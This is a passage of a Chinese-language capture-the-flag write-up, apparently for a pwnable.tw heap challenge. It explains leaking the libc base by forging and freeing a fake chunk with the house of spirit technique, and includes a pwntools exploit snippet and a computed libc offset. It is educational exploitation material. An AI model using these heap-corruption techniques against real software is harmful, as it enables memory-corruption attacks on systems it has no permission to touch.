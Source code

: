 ### 泄露libc基址

利用**house of spirit**，伪造大小大于0x410的chunk（由于free时会进行检查，所以该chunk后面的数据也要至少满足两个堆块格式），free掉ptr处（chunk1的数据部分），该chunk进入unsorted bin中，之后info泄露libc地址。

![image-20220609201957178](pwnabletw.assets/image-20220609201957178.png)



本地调试unsorted bins的libc偏移：0x7ffff7dcfca0-0x7ffff79e4000 = **0x3EBCA0**

![image-20220609003924528](pwnabletw.assets/image-20220609003924528.png)

![image-20220609003935923](pwnabletw.assets/image-20220609003935923.png)

```python
name_bss = 0x602060
init(p64(0)+p64(0x501))
aaw(0x50,name_bss+0x500,(p64(0)+p64(0x21)+p64(0)*2)*2)
aaw(0x60,name_bss+0x10,'a')
free()

# use unsorted bin chunk to leak libc
info()
io.recvuntil("Name :"); io.recv(0x10)
libc_addr = u64(io.recv(8)) - 0x3ebca0
log.warn("libc:0x%x"%libc_addr)
io.interactive()
```
